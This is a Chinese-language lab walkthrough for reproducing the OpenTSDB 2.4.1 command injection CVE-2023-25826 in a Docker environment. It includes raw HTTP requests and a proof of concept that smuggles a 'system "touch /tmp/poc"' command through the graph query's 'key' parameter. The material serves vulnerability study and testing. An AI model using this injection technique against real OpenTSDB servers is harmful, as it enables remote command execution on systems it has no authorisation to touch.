


OpenTSDB 命令注入漏洞（CVE-2023-25826）¶
OpenTSDB是一款基于Hbase的、分布式的、可伸缩的时间序列数据库。 2.4.1版本及之前，存在一处命令注入漏洞。 这个漏洞其实是对之前的CVE-2020-35476修复不完善导致的，所以整个复现过程也与之前类似。
参考链接：
- https://www.synopsys.com/blogs/software-security/opentsdb/
- https://github.com/OpenTSDB/opentsdb/pull/2275
漏洞环境¶
执行如下命令启动一个OpenTSDB 2.4.1：
docker-compose up -d
服务启动后，访问http://your-ip:4242即可看到OpenTSDB的Web接口。
漏洞复现¶
这之前的都和CVE-2020-35476一致，也是需要知道一个metric的名字，可以通过http://your-ip:4242/api/suggest?type=metrics&q=&max=10查看metric列表。
如果metrics是空的，由于当前OpenTSDB开启了自动创建metric功能（tsd.core.auto_create_metrics = true），所以也可以使用如下API创建一个名为sys.cpu.nice的metric并添加一条记录：
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150
{
"metric": "sys.cpu.nice",
"timestamp": 1346846400,
"value": 20,
"tags": {
"host": "web01",
"dc": "lga"
}
}
如果目标OpenTSDB存在metric，且不为空，则无需上述步骤。
然后这里的poc就有所不同了，这里可以看到绕过修复的一个点，在参数key这里：
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close

进入容器中可见touch /tmp/poc已成功执行：
